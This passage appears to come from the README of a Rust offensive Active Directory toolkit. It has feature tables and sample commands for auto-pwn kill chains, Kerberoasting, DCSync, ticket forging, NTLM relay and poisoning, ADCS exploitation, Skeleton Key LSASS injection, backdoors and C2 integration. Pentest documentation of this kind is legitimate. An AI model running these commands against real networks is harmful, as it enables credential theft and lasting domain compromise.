| **NTLM relay** | ✅ | ✅ | ⚠️ | ✅ | LLMNR/NBT-NS/mDNS poisoner + relay engine (SMB→LDAP, HTTP→SMB, Exchange MAPI/EWS). SMB signing pre-flight check refuses relay when signing required. Exchange relay (CVE-2024-21410) with EPA bypass. LDAP signing bypass (CVE-2019-1040). WS 2025 LDAP signing required by default on new AD deployments; `ovt doctor` tells you what terrain you're on before you relay. |
| **LAPS (v1 + v2)** | ✅ | ✅ | ✅ | ✅ | LAPS v1 reads `ms-Mcs-AdmPwd` in plaintext. LAPS v2 decrypts `msLAPS-EncryptedPassword` via DPAPI/AES-256-GCM. Both work. |
| **GPP decrypt** | ✅ | ✅ | ✅ | ✅ | Microsoft literally shipped the AES key in their documentation. We use it. `cpassword` ? plaintext, every time. Thanks, Microsoft. |
| **RID cycling** | ✅ | ✅ | ✅ | ✅ | Enumerate users by RID even without valid creds (`--null-session`). Still works on misconfigured/legacy hosts. |
| **Hash cracking** | ✅ | ✅ | ✅ | ✅ | Offline cracking engine built in. Embedded 10K wordlist + mask attacks (`?u?l?l?d?d?d?d`) + hybrid mode + rayon parallelism. No hashcat required. |
| **SOCKS5 proxy / pivoting** | ✅ | ✅ | ✅ | ✅ | Full RFC 1928 SOCKS5 server on the compromised box. IPv4/IPv6/domain. Nothing extra needed on target. Pivot deeper into the network. |
| **Forge + C2 + ADCS + MSSQL** | ✅ | ✅ | ✅ | ✅ | Diamond tickets, Shadow Creds, Cobalt Strike/Sliver/Havoc integration, MSSQL `xp_cmdshell`, SCCM abuse. It's all in there. |
| **Skeleton Key (native DLL)** | ✅ | ✅ | ✅ | ✅ | 92KB x64 MSVC-compiled DLL embedded in binary. Reflective LSASS injection with `MsvpPasswordValidate` hook. Exports: Enable/Disable/IsActive. PatchGuard will notice. Credential Guard will block it. Everything else? Game over. |
| **auto-pwn (full kill chain)** | ✅ | ✅ | ✅ | ✅ | Enum ? graph ? roast ? crack ? escalate ? persist ? report. One command. Live per-step output with Q-learning decisions. Ends with a kill-chain completion report, credential tables, and loot summary. Use `--stealth` on WS 2025 for the noisier phases. |

> ⚠️ = works, but WS 2025 security defaults are spicy: LDAP signing is required by default on new AD deployments, LDAP channel binding is audited/encouraged, SMB signing is required by default for outbound connections, and NTLM blocking exists to ruin relay goblin dreams. `ovt doctor` tells you what terrain you're standing on before you sprint into a wall.

~204,000 lines of Rust across 10 crates (~225,000 total tracked source/doc/static lines). Zero Python wrappers. Minimal shell-outs where strictly needed. `cargo test --workspace --lib` exercises **1,618 library tests** across core, reaper, hunter, crawler, forge, relay, scribe, pilot, and viewer code paths, with integration tests covering graph, C2, module execution, and live DC infrastructure. The code is real. The protocols are real. Go break some labs.

## Commands

29 top-level commands plus deep subcommands across recon, Kerberos, lateral movement, persistence, and reporting. Every command works as both `overthrone <cmd>` and `ovt <cmd>`.

> **[Full Command Reference ?](COMMAND-LIST.md)** - detailed usage, flags, and examples for every command.

**Quick taste:**

```bash
ovt auto-pwn -H DC -d DOMAIN -u USER -p PASS                        # Full AI killchain
ovt auto-pwn --config ./eng.toml --resume session.json               # Resume with config
ovt wizard   -t DA --dc-host DC -d DOMAIN -u USER                   # Guided mode
ovt shell                                                            # Interactive REPL
ovt enum all -H DC -d DOMAIN -u USER -p PASS                        # Enumerate everything
ovt enum policy -H DC -d DOMAIN -u USER -p PASS                     # Lockout/password policy
ovt enum laps -H DC -d DOMAIN -u USER -p PASS                       # Readable LAPS secrets
ovt powerview users --identity adm-smith -H DC -d DOMAIN -u USER -p PASS
ovt guid resolve ForceChangePassword                                # Resolve common ACE GUIDs
ovt snaffler -H DC -d DOMAIN -u USER -p PASS --output-format json   # Snaffle network shares
ovt scan --targets DC --ldap --smb                                  # No-creds port + null-session triage
ovt enum pre -H DC                                                   # No-creds AD service triage
ovt enum anonymous -H DC                                             # Anonymous LDAP RootDSE probe
ovt kerberos user-enum -H DC -d DOMAIN --userlist users.txt         # Zero-knowledge user enum
ovt kerberos roast -H DC -d DOMAIN -u USER -p PASS                  # Kerberoast
ovt exec -t TARGET -c "whoami" -d DOMAIN -u ADMIN                   # Remote exec
ovt dump -t DC ntds -d DOMAIN -u DA -p PASS --output-format json    # DCSync
ovt adcs enum -H DC -d DOMAIN -u USER -p PASS                       # ADCS vuln scan
ovt graph gui -i ./graphs/                                           # Browser GUI
ovt graph view -i ./bloodhound-json/                                 # Native TUI graph viewer
ovt graph tree -i ./bloodhound-json/                                 # Native TUI tree explorer
ovt doctor                                                           # Health check
ovt config show                                                      # Show config
ovt config set verbose true                                          # Set config value
ovt config profile create cobalt-op                                  # Create named profile
ovt config profile use cobalt-op                                     # Activate a profile
ovt session list                                                     # List saved sessions
ovt session show corp.local-10.0.0.1                                 # Show session details
ovt session clean --older-than 30d                                   # Clean old sessions
ovt move -H DC -d DOMAIN -u USER -p PASS --respond --poison-ip ATTACKER_IP  # Crawl + respond
ovt ntlm http-asymmetric -t http://target:80 -p 8080                # HTTP→SMB asymmetric relay
ovt ntlm relay -l 0.0.0.0:8080 -t smb://target --tls-verify         # NTLM relay with TLS verify
ovt ntlm smb-relay -l 0.0.0.0:445 -t ldap://target                  # SMB→LDAP relay
ovt azure enum -H DC -d DOMAIN -u USER -p PASS                      # Hybrid identity + Entra
ovt azure golden-saml -H DC -d DOMAIN -u DA -p PASS                 # Golden SAML forge
ovt azure seamless-sso -H DC -d DOMAIN -u USER -p PASS              # Seamless SSO
ovt forge golden --domain-sid S-1-5-... --krbtgt-hash <hash>        # Forge golden ticket
ovt forge adcs --ca-server CA01.corp.local --domain corp.local      # ADCS ESC1-9 auto-exploit
ovt forge s4u2self-pkinit -d DOMAIN --cert cert.pfx                 # S4U2Self with PKINIT
ovt completions bash                                                 # Shell tab completion
```

---

## Features

### Enumeration (overthrone-reaper)

The "ask nicely and receive everything" phase. Active Directory is the most oversharing protocol since your aunt discovered Facebook.

| Feature | What it finds | Status |
|---|---|---|
| **Full LDAP enumeration** | Every user, computer, group, OU, and GPO in the domain. AD is surprisingly chatty with authenticated users. It's like a bartender who tells you everyone's secrets after one drink. | ✅ Done |
| **Kerberoastable accounts** | Service accounts with SPNs. These are the ones with passwords that haven't been changed since someone thought "qwerty123" was secure. | ✅ Done |
| **AS-REP roastable accounts** | Accounts that don't require pre-authentication. Someone literally unchecked a security checkbox. On purpose. In production. | ✅ Done |
| **Domain trusts** | Parent/child, cross-forest, bidirectional. The map of "who trusts whom" and more importantly, "who shouldn't." | ✅ Done |
| **ACL analysis** | GenericAll, WriteDACL, WriteOwner, AllExtendedRights, WriteSelf/AddSelf, CreateChild, Windows LAPS GUIDs, ADCS write/enroll paths, Shadow Creds, SPN writes, delegation writes, lockout/password-policy writes - the holy trinity went to college and came back with a terrifying friend group. | ✅ Done |
| **Delegation discovery** | Unconstrained, constrained, resource-based. Delegation is AD's way of saying "I trust this computer to impersonate anyone." | ✅ Done |
| **Password policy** | Lockout thresholds, complexity requirements, history. Know the rules before you break them. | ✅ Done |
| **Account telemetry** | `badPwdCount`, `badPwdTime`, `lockoutTime`, logon count, password timestamps, and account expiry. This is what makes safe spray planning possible instead of vibes-based credential roulette. | ✅ Done |
| **LAPS discovery** | LAPS v1 (plaintext ms-Mcs-AdmPwd) and LAPS v2 - including the encrypted variant (msLAPS-EncryptedPassword) via DPAPI/AES-256-GCM decryption. The DPAPI module finally exists. Hallelujah. | ✅ Full (v1 + v2 encrypted) |
| **LAPS/gMSA enumeration** | Purpose-built `laps_gmsa.rs` (276 lines, 12 tests) - targets LAPS passwords and gMSA account secrets specifically. No more generic LDAP scraping. | ✅ Full |
| **Snaffler module** | `snaffler.rs` - configurable share crawling with pattern matching (extensions/names/regex), severity scoring, CSV export, concurrent scanning. Audited and fixed. 23 tests. | ✅ Full |
| **GPP Passwords** | Fetches GPP XML from SYSVOL over SMB, decrypts cpassword values. Microsoft published the AES key. In their documentation. On purpose. | ✅ Done |
| **MSSQL Enumeration** | MSSQL instances, linked servers, xp_cmdshell. SQL Server: because every network needs a database with `sa:sa` credentials. | ✅ Full TDS client |
| **ADCS Enumeration** | Certificate templates, enrollment services, CA permissions, vulnerable template identification. ADCS is the gift that keeps on giving (to attackers). | ✅ Done |
| **BloodHound Export** | Export users, groups, computers, domains to BloodHound-compatible JSON. CSV and graph export too. | ✅ Done |

### Attack Execution (overthrone-hunter)

The crate with zero stubs. The only crate that did all its homework. If overthrone-hunter were a student, it would remind the teacher about the assignment.

| Attack | How it works | Status |
|---|---|---|
| **Kerberoasting** | Request TGS tickets for SPN accounts, crack offline with embedded wordlist or hashcat. The DC hands you encrypted tickets and says "good luck cracking these" and hashcat says "lol." | ✅ Full |
| **AS-REP Roasting** | Request AS-REP for accounts without pre-auth. Someone unchecked "Do not require Kerberos preauthentication." That single checkbox has caused more breaches than we can count. | ✅ Full |
| **Kerberos User Enumeration** | Zero-knowledge username discovery via AS-REQ probes. No credentials needed - the KDC error code reveals whether each account exists (`KDC_ERR_C_PRINCIPAL_UNKNOWN` = not found, `KDC_ERR_PREAUTH_REQUIRED` = valid). Automatically captures AS-REP hashes for any no-preauth accounts found during enumeration. Supports `--userlist`, `--use-ldap`, and a built-in embedded fallback list when no file is available. | ✅ Full |
| **Auth Coercion** | PetitPotam, PrinterBug, DFSCoerce, ShadowCoerce - force machines to authenticate to you. The DC does this willingly. Microsoft considers this "working as intended." | ✅ Full (5 techniques) |
| **RBCD Abuse** | Create machine account + modify msDS-AllowedToActOnBehalfOfOtherIdentity + S4U2Self/S4U2Proxy chain. The attack with the longest name and the shortest time-to-DA. | ✅ Full |
| **Constrained Delegation** | S4U2Self + S4U2Proxy to impersonate users to specific services. Microsoft: "You can only impersonate to these services." Attackers: "What about these other services?" | ✅ Full |
| **Unconstrained Delegation** | Steal TGTs from anyone who authenticates to a compromised machine. It's always the print server. Always. | ✅ Full |
| **Inline Hash Cracking** | Embedded top-10K wordlist (zstd compressed), rayon parallel cracking, rule engine (leet, append year/digits, capitalize), hashcat subprocess fallback. | ✅ Full |
| **Ticket Manipulation** | Request, cache, convert between .kirbi and .ccache formats. Tickets are the currency of AD. This module is the money printer. | ✅ Full |

### Cross-Domain Crawling (overthrone-crawler)

The explorer crate that used to have placeholder "not yet implemented" functions. Now it's the Indiana Jones of AD reconnaissance.

| Feature | Details | Status |
|---|---|---|
| **Cross-domain trust mapping** | Parent/child, cross-forest, external, realm trusts. Maps who trusts whom across boundaries. | ✅ Full |
| **Inter-realm TGT forging** | Forge cross-realm TGTs using trust keys or PKINIT session keys. | ✅ Full |
| **SID filter analysis** | Detects SID filter misconfigurations that enable cross-domain escalation. | ✅ Full |
| **PAM trust detection** | Privileged Access Management trust detection. | ✅ Full |
| **MSSQL linked server crawling** | Crawl linked MSSQL servers via TDS protocol, execute queries across boundaries. | ✅ Full |
| **Foreign LDAP enumeration** | Real cross-trust LDAP queries: users, groups, computers, SPNs, ACLs. 25KB of `foreign.rs`. | ✅ Full |
| **TCP source-port rotation** | `PortRotator` - atomic round-robin across user-port range (49152-65535), `connect_with_source_port()`, `connect_with_rotation()` with OS fallback. No admin needed. 12 tests. | ✅ Full |
| **JA3/JA4 TLS fingerprint randomization** | `TlsFingerprintConfig` - randomize cipher order, group order, cipher subset size. Danger + verified config builders. Feature-gated. 9 tests. | ✅ Full |
| **SMB OPLOCK hijacking** | `OplockConfig`/`OplockLevel`/`OplockSession` in `oplock.rs`. Create/wait/acknowledge break cycle. Used for SMB share crawling. | ✅ Full |
| **Responder integration** | `CrawlerResponder` wraps relay Poisoner + Responder with start/stop lifecycle. CLI `--poison-ip`/`--respond` on `ovt move`. Captured NTLMv2 displayed as hashcat-ready. 9 tests. | ✅ Full |

### Attack Graph (overthrone-core)

BloodHound rebuilt in Rust without the Neo4j dependency. Maps every relationship in the domain, imports BloodHound JSON locally, visualizes it in a native Rust TUI, and finds the shortest path to making the blue team update their resumes.

| Feature | Details | Status |
|---|---|---|
| **Directed graph** | Nodes (users, computers, groups, domains) and edges (MemberOf, AdminTo, HasSession, GenericAll, etc.) - LinkedIn for attack paths. | ✅ Full (petgraph) |
| **Shortest path** | Dijkstra with weighted edges - `MemberOf` is free, `AdminTo` costs 1, `HasSpn` costs 5 (offline cracking). Finds the path of least resistance. Just like a real attacker. Just like water. | ✅ Full |
| **Path to DA** | Finds every shortest path from a compromised user to Domain Admins. Usually shorter than you'd expect. Usually terrifyingly short. | ✅ Full |
| **High-value targets** | Auto-identifies Domain Admins, Enterprise Admins, Schema Admins, KRBTGT, DC computer accounts. The "if you compromise these, the game is over" list. | ✅ Full |
| **Kerberoast reachability** | "From user X, which Kerberoastable accounts can I reach, and how?" - it's a shopping list for your GPU. | ✅ Full |
| **Delegation reachability** | "From user X, which unconstrained delegation machines are reachable?" (Spoiler: it's the print server.) | ✅ Full |
| **JSON export** | Full graph export for D3.js, Cytoscape, or your visualization tool of choice. Clients love graphs that look like conspiracy boards. | ✅ Full |
| **Local BloodHound viewer** | `ovt graph view` opens a Rust-native interactive visualizer for Overthrone exports and BloodHound v4/CE JSON collections. The canvas now shows compact node labels when you zoom in (and always for selected or high-value nodes), while full names and relationship details stay readable in the surrounding panes. `ovt graph tree` adds a fully interactive domain -> object type -> object -> inbound/outbound relationship tree for BloodHound-style analysis without Neo4j. | ✅ Full |
| **Graph statistics** | ovt graph stats shows node/edge counts, breakdown by type, and high-value target rankings. Know your attack surface. | ✅ Full |
| **Path finding** | ovt graph path finds shortest paths between any two nodes. ovt graph path-to-da finds all routes to Domain Admins. | ✅ Full |

#### Local BloodHound Viewer Quickstart

```bash
# Build an Overthrone graph from LDAP and open it locally
ovt graph build -H 10.10.10.1 -d corp.local -u jsmith -p 'Summer2026!'
ovt graph view --file attack_graph.json
ovt graph tree --file attack_graph.json

# Or import existing BloodHound v4/CE collection JSON without Neo4j
ovt graph view -i ./bloodhound-json/
ovt graph tree -i ./bloodhound-json/
ovt graph view -i users.json -i groups.json -i computers.json -i domains.json
```

#### Graph GUI (Browser) Quickstart

```bash
# Launch the browser-based GUI from an Overthrone graph export
ovt graph gui --file attack_graph.json

# Or point it at a directory of BloodHound/Overthrone JSON files
ovt graph gui -i ./graphs/
```

The graph and tree viewers are native Rust TUIs. They parse Overthrone graph exports, Overthrone BloodHound exports, and BloodHound collection files/directories. Use `ovt graph view` for a clean relationship canvas that shows compact labels on zoom/selection while keeping full names in the side panels, and `ovt graph tree` for a GUI BloodHound-style hierarchy that expands domains, object classes, objects, inbound relationships, outbound relationships, rich details, and high-value paths. Both viewers support search, high-value and owned filters, attack-edge lensing, mouse selection/scrolling, readable detail panes, `?` help, and `q` to quit.

The browser GUI runs a local Rust HTTP server, opens a tab automatically, and serves the graph UI from your machine. Directory inputs are indexed as separate selectable JSON graphs instead of being merged and rendered all at once. Like BloodHound, the canvas starts blank after selection: stats are indexed, then the operator searches source/destination nodes with realtime suggestions, filters object types, finds focused paths, or renders a chunk. Render budgets are `50`, `100`, `200`, `300`, `500`, `1000`, `2000`, `5000`, and `ALL`; `ALL` prompts before rendering because giant domains deserve a seatbelt. The renderer uses a deterministic left-to-right hierarchy instead of a circular force cluster, and node details live in their own right rail so collapsing graph controls does not hide the selected object context. Node and edge detail panels include human-readable ACE/ACL guidance for GenericAll, GenericWrite, WriteDacl, WriteOwner, delegation, DCSync, LAPS/gMSA reads, GPO control, shadow credentials, ADCS enrollment, attribute-specific WriteProperty edges, and similar abuse paths. The rendering engine has been migrated from D3.js to Three.js for GPU-accelerated WebGL performance at scale. A small demo fixture lives at `docs/bloodhound-hierarchy-demo.json`.

### NTLM Relay & Poisoning (overthrone-relay)

Born complete. Stayed complete. Added more features just to flex. Still zero stubs.

| Feature | Details | Status |
|---|---|---|
| **NTLM Relay Engine** | Full relay - capture NTLM auth from one protocol, replay to another. SMB→LDAP, HTTP→SMB, mix and match like a deadly cocktail. | ✅ Full |
| **HTTP→SMB Asymmetric Relay** | `http_asymmetric.rs` - full HTTP request capture and replay. Captures method/URI/headers/body, extracts NTLM token, replays authenticated request to target. Connection-based state tracking (NAT-safe). Post-auth modes for HTTP/HTTPS/WebDAV/Exchange vs SMB/LDAP/MSSQL. CLI: `ovt ntlm http-asymmetric`. | ✅ Full |
| **Exchange Relay** | CVE-2024-21410 - NTLM relay to Exchange MAPI-over-HTTP and EWS endpoints. TLS support, self-signed cert acceptance, EPA/channel binding bypass. Pre-CU14 Exchange servers accept relayed NTLM auth without Extended Protection. | ✅ Full |
| **SMB Signing Pre-Flight** | Inline SMB2 negotiate probe checks `SecurityMode` before relaying. If the target requires packet signing, relay refuses with a clear error. | ✅ Full |
| **LDAP Signing Bypass** | CVE-2019-1040 "Drop the MIC" - strips SIGN/SEAL flags from the target's CHALLENGE before the victim sees it, zeroes MIC in AUTHENTICATE. Relayed sessions can perform LDAP operations (add-to-group, search, modify-replace). | ✅ Full |
| **DCE/RPC Signature Stripping** | `strip_dce_rpc_signature` in core - strips NTLM auth verifier from DCE/RPC request PDUs. Wired in `smb_daemon.rs::relay_ioctl()`. Enables relay against MS-RPRN and MS-EFSR. | ✅ Full |
| **mTLS / TLS Verification Mode** | `TlsVerificationMode` enum (AcceptAll/VerifyServerCert), `TlsConfig` struct. Unified `wrap_tls()` across relay engine + exchange module. `--tls-verify` flag on all relay subcommands. Channel binding validation (CbtMode::Validate/Strip/Passthrough). | ✅ Full |
| **Auto-Trigger Coercion** | `auto_coerce()` with `CoerceCreds` passthrough for authenticated coercion. ShadowCoerce (PetitPotam via WebDAV) when HTTP relay active. `wait_for_listener_ready()` with exponential backoff. CLI: `--auto-coerce-domain/user/password`. | ✅ Full |
| **IPv6 Transport** | `bind_tcp_listener_async/sync` helpers for dual-stack listeners. Fixed IPv6 target address formatting. Centralized `format_addr()` with bracket handling. | ✅ Full |
| **SOCKS5 Proxy Output** | Route relayed connections through SOCKS5 proxy. Wired in ADCS relay, Exchange relay, SMB daemon. | ✅ Full |
| **LLMNR/NBT-NS/mDNS Poisoner** | Respond to broadcast name resolution. "Who is FILESERVER?" "Me. I'm FILESERVER now." Identity theft, but for computers. | ✅ Full |
| **Network Poisoner** | Decides when to poison, what to poison, and how aggressively - while avoiding detection. | ✅ Full |
| **ADCS Relay (ESC8)** | Relay NTLM auth to AD Certificate Services web enrollment. Get a certificate as the victim. Certificates: the new hashes. | ✅ Full |

### Persistence (overthrone-forge)

Taking the throne is easy. Keeping it is an art form. This crate welds the crown to your head.

| Technique | What it does | Status |
|---|---|---|
| **DCSync** | Replicate credentials from the DC using MS-DRSR. Get every hash in the domain. The CEO's. The intern's. The service account from 2009 nobody remembers creating. | ✅ Full |
| **Golden Ticket** | Forge a TGT signed with the KRBTGT hash. Be any user. Access anything. The Willy Wonka golden ticket, except the factory is Active Directory. | ✅ Full (with PAC construction) |
| **Silver Ticket** | Forge a TGS for any service. Stealthier than Golden - no DC interaction needed. | ✅ Full |
| **Diamond Ticket** | Modify a legit TGT's PAC. Bypasses detections that check for TGTs not issued by the KDC. The stealth bomber of ticket forging. | ✅ Full |
| **Enhanced Diamond** | Parses legitimate TGT PAC, locates and preserves KDC checksum (type 7). KDC_ISSUED indicator survives inspection. | ✅ Full |
| **Sapphire Ticket** | Full chain: legitimate TGT -> S4U2Self -> decrypt service ticket -> extract KDC-issued PAC -> forge new TGT around it with krbtgt encryption. The phoenix of ticket attacks. | ✅ Full |
| **Bronze Bit** | CVE-2020-17049 - S4U2Self -> S4U2Proxy with PA-PAC-OPTIONS forwardable flag bypass. | ✅ Full |
| **InterRealm TGT** | Forge cross-realm TGTs with PKINIT session key or trust hash. Move between forests like you pay taxes in both. | ✅ Full |
| **PKINIT-Keyed Forging** | Golden/Silver/Diamond/InterRealm/Skeleton Key all check `pkinit_session_key` first, fall back to hash. Certificate-based forging, no krbtgt hash required. | ✅ Full |
| **ADCS Dispatcher** | ESC1-9 orchestration in 1,147 lines. Auto mode tries ESC1->ESC6->ESC9 in order. Direct exploit for ESC1/2/3/6/9, command generation for ESC4/5/7/8. | ✅ Full |
| **S4U2Self with PKINIT Chain** | Certificate-based S4U2Self delegation. PKINIT auth -> S4U2Self -> optional S4U2Proxy. Wired as `ForgeAction::S4u2SelfPkinit`. | ✅ Full |
| **AS-REP to TGT Pipeline** | Takes cracked AS-REP passwords, requests real TGTs from KDC. `ForgeAction::AsRepToTgt`. | ✅ Full |
| **Shadow Credentials** | Add a key credential to msDS-KeyCredentialLink via LDAP, then authenticate with PKINIT (real RSA signing + DH key exchange). The cool modern attack, and it actually works now. | ✅ Full (LDAP + PKINIT) |
| **ACL Backdoor** | Modify DACLs to grant yourself hidden permissions. The "I was always an admin, you just didn't notice" technique. | ✅ Full |
| **MS-WCCE DCOM (ESC8)** | Full DCOM activation path for ICertRequest remote enrollment. 30 tests. The direct COM pipe, no web enrollment needed. | ✅ Full |
| **Skeleton Key** | Patch LSASS to accept a master password. Native 92KB x64 DLL embedded in binary. Reflective injection via `CreateRemoteThread`. Exports: Enable/Disable/IsActive. Full SMB orchestration. PKINIT-based auth path for certificate-based SMB session. | ✅ Full (native DLL) |
| **DSRM Backdoor** | Set DsrmAdminLogonBehavior=2 via remote registry. Persistent backdoor via DSRM Administrator. | ✅ Full |
| **Forensic Cleanup** | Rollback every persistence technique. Because good pentesters clean up. Great pentesters never needed to. | ✅ Full |
| **17 ForgeAction Variants** | Golden, Silver, Diamond, EnhancedDiamond, Sapphire, BronzeBit, InterRealmTgt, SkeletonKey, DsrmBackdoor, DcSyncUser, AclBackdoor, NoPac, ConvertTicket, AsRepToTgt, PkinitAuth, AdcsExploit, S4u2SelfPkinit. Pick your poison. | ✅ Full |

### ADCS Exploitation (overthrone-core)

AD Certificate Services: where Microsoft said "let's add PKI to Active Directory" and attackers said "thank you for your service."

| ESC | Attack | Status | Notes |
|---|---|---|---|
| **ESC1** | Enrollee supplies subject / SAN in request | ✅ Implemented | Full `Esc1Exploiter` - SAN UPN abuse, CSR generation, certificate enrollment, NT hash extraction from PKCS#12. 204 lines. The main character has arrived. |
| **ESC2** | Any purpose EKU + enrollee supplies subject | ✅ Implemented | Any Purpose certificates exploited via enrollment request manipulation. The "I can be anything" certificate. |
| **ESC3** | Enrollment agent + second template abuse | ✅ Implemented | Two-step: get enrollment agent cert, then request cert as victim. The buddy system of exploitation. |
| **ESC4** | Vulnerable template ACLs ? modify to ESC1 | ✅ Implemented | Modify template permissions, then exploit. If you can write the rules, you can break the rules. |
| **ESC5** | Vulnerable PKI object permissions | ✅ Implemented | Abuse permissions on PKI infrastructure objects. |
| **ESC6** | EDITF_ATTRIBUTESUBJECTALTNAME2 on CA | ✅ Implemented | Full `Esc6Exploiter` - detects and exploits the EDITF flag on CAs. Its name is longer than the code, but the code works. |
| **ESC7** | CA access control abuse (ManageCA rights) | ✅ Implemented | CA permission manipulation. |
| **ESC8** | Web enrollment NTLM relay | ✅ Implemented | Full relay with the overthrone-relay crate integration. |
| **ESC9** | No Security Extension + UPN poisoning | ✅ Implemented | Supports automated live LDAP mode (with supplied directory creds) plus guided mode for operator-driven UPN restore. |
| **ESC10** | Weak certificate mapping / weak binding enforcement | ✅ Implemented | Supports Variant A/B workflows with optional live LDAP automation for UPN mapping paths. |
| **ESC11** | NTLM relay to ICPR (`ICertPassage`) | ✅ Implemented | Includes assessment flow and optional live WINREG/SMB checks when CA host creds are supplied. |
| **ESC12** | CA private key exfiltration | ✅ Implemented | Generates operator workflow for backup/exfil and offline abuse where shell-level CA access exists. |
| **ESC13** | Issuance Policy OID to privileged group link | ✅ Implemented | Full exploit flow and PKINIT usage hints for privilege pivoting via linked group policy OIDs. |
| **ESC14** | Strong certificate mapping bypass via SAN abuse | ✅ Implemented | Bypass strong mapping enforcement when the CA issues certificates with alternative security identifiers. |
| **ESC15** | CA Exchange metadata poisoning | ✅ Implemented | Abuses CA Exchange certificate metadata fields for privilege escalation through improper template issuance constraints. |
| **ESC16** | Partial CA certificate chain compromise | ✅ Implemented | Exploits cross-CA trust relationships and misconfigured subordinate CA chains to forge valid certificates from a partial signing key. |

### Remote Execution (overthrone-core)

Six lateral movement methods. All implemented. The `todo!()` trio graduated.

| Method | Protocol | Status | Notes |
|---|---|---|---|
| **WinRM (Linux/macOS)** | WS-Management + NTLM | ✅ Full | Pure Rust WS-Man with NTLM auth. Create shell, execute, receive output, delete shell. Cross-platform perfection. |
| **WinRM (Windows)** | Win32 WSMan API | ✅ Full | Commands execute via native Win32 API with real output collection via `WSManReceiveShellOutput`. The mystery is solved. |
| **AtExec** | ATSVC over SMB | ✅ Full | Scheduled task creation via named pipe. "Task Scheduler is a feature, not a vulnerability." |
| **PsExec** | DCE/RPC + SMB | ✅ Full | Real DCE/RPC bind packet building, service creation, payload upload to ADMIN$, execution, cleanup. The sports car now has a steering wheel. |
| **SmbExec** | SCM over SMB | ✅ Full | Service-based command execution via SMB named pipes. Clean, simple, effective. |
| **WmiExec** | DCOM/WMI | ✅ Full (Windows) | WMI-based semi-interactive command execution with output retrieval via SMB. ?? Windows only - returns a clear error on Linux/macOS. |

### C2 Framework Integration (overthrone-core)

The C2 integration that went from "aspirational" to "actually works." Three backends, all with real HTTP clients, real auth flows, and real API calls.

| Framework | What It Does | Auth | Status |
|---|---|---|---|
| **Sliver** | Full C2Channel trait - sessions, beacons, exec, PowerShell, upload/download, assembly, BOF, shellcode inject, implant generation, listener management. Operator `.cfg` parsing with mTLS. | mTLS (certificate + CA from operator config) | ✅ Full |
| **Havoc** | Full C2Channel trait - Demon agent management, shell/PowerShell exec, upload/download, .NET assembly exec, BOF exec, shellcode inject, payload generation. Task polling with 5-min timeout. | Token or password auth (REST login endpoint) | ✅ Full |
| **Cobalt Strike** | Full C2Channel trait - beacon management, BOF execution, shellcode injection, payload generation. Aggressor-style REST API. | Bearer token or password auth | ✅ Full |

All three implement the complete `C2Channel` async trait: `connect`, `disconnect`, `list_sessions`, `get_session`, `exec_command`, `exec_powershell`, `upload_file`, `download_file`, `execute_assembly`, `execute_bof`, `shellcode_inject`, `deploy_implant`, `list_listeners`, `server_info`. The trait system is legitimately well-designed. The water is connected now.

### Crypto Layer (overthrone-core)

The layer that used to be the "Empty Files Hall of Shame." The shame has been resolved. The five one-line doc comments are now real implementations.

| Module | What It Does | Status |
|---|---|---|
| **AES-CTS** | AES256-CTS-HMAC-SHA1 for Kerberos etype 17/18. The thing that makes modern tickets work. | ✅ Full |
| **RC4** | RC4 encryption for Kerberos etype 23. The crypto equivalent of a screen door on a submarine, but AD still uses it everywhere. | ✅ Full |
| **HMAC** | HMAC utilities for ticket validation and integrity checking. | ✅ Full |
| **MD4** | MD4 hash for NTLM password hashing. The algorithm from 1990 that refuses to die, much like NTLM itself. | ✅ Full |
| **Ticket Crypto** | Ticket forging primitives - encryption, PAC signing, checksum computation. The mathematical foundation of ticket forging. | ✅ Full |
| **DPAPI** | LAPS v2 encrypted blob parsing, AES-256-GCM decryption, HMAC-SHA512 key derivation. With property-based tests using `proptest`. The module that doesn't exist? It exists now. | ✅ Full (with tests) |
| **GPP** | Group Policy Preferences cpassword AES decryption. Microsoft published the key. We just use it. | ✅ Full |
| **Cracker** | Offline hash cracking engine - embedded wordlist, rayon parallel processing, rule engine. | ✅ Full |

### Plugin System (overthrone-core)

| Component | Status | Notes |
|---|---|---|
| **Plugin Trait** | ✅ Full | Complete plugin API: manifest, capabilities, events, command execution. |
| **Native DLL Loading** | ✅ Full | `libloading`-based FFI with API version checking, manifest JSON parsing, function pointer caching. |
| **Built-in Example** | ✅ Full | SmartSpray plugin with lockout avoidance. A complete working example that actually spray-attacks responsibly. |
| **WASM Plugin Runtime** | ✅ Full | Wasmtime engine, module compilation, host function linking (`env.log`, `env.graph_add_node`, `env.graph_add_edge`). Plugins load, execute, and maintain state between calls. Manifest custom section parsing works. Memory allocation tries plugin's `allocate()` first. The engine is tuned and road-ready. |

### Autonomous Planning (overthrone-pilot)

The "I'll hack it myself" engine. Now with machine learning and a filing system.

| Feature | Status |
|---|---|
| **Attack Planner** | ✅ Plans multi-step attack chains from enumeration data |
| **Step Executor** | ✅ Executes each planned step by calling Hunter/Forge/Reaper. 90KB of execution logic. |
| **Adaptive Strategy** | ✅ Adjusts plan on-the-fly based on what succeeds and fails |
| **Policy-Aware Planning** | ✅ Pulls password policy, badPwdCount/badPwdTime/lockoutTime, GPOs, delegation/RBCD, and readable LAPS before choosing attacks. |
| **Q-Learning AI** | ✅ Reinforcement learning engine (compiled by default) - e-greedy policy with decay (0.3→0.05), learns optimal attack sequences across engagements via state-action reward tables. State includes policy, lockout risk, LAPS, delegation, GPO, creds, admin hosts, stage, action family, stealth, and failure class. Shows state, decision, Q-value, rationale, and reward at every step. |
| **Goal System** | ✅ Target DA, Enterprise Admin, specific user, specific host |
| **Playbooks** | ✅ Pre-built YAML attack sequences for common scenarios |
| **Wizard Mode** | ✅ Interactive guided mode with Q-learner state/decision/reward loop. |
| **Hostile-DC Detection** | ✅ `dc_verify.rs` - 5 checks: LDAP rootDSE, domain match, DNS SRV, hostname resolution, Kerberos port. |
| **Session Management** | ✅ `ovt session` subcommand with 7 actions (list/show/info/delete/clean/path/stats). `--from-session <name>` wired to wizard - loads saved EngagementState, skips Enumerate if state has data. |
| **Session Resume** | ✅ `--resume <file>` reloads serialized `EngagementState` from a previous run. VPN dropped? Pick up mid-chain. |
| **TOML Config** | ✅ `--config <file>` loads engagement params from a TOML file. |
| **Credential Vault** | ✅ Thread-safe `CredStore` with privilege ranking. |
| **OPSEC Noise Gate** | ✅ `--stealth` caps noise at `Medium`. High/Critical steps are skipped. |
| **Auto-Pwn Runner** | ✅ Full engagement orchestrator: enum -> graph -> exploit -> persist -> report. Live kill-chain pipeline, per-step output, 9-section final report. |
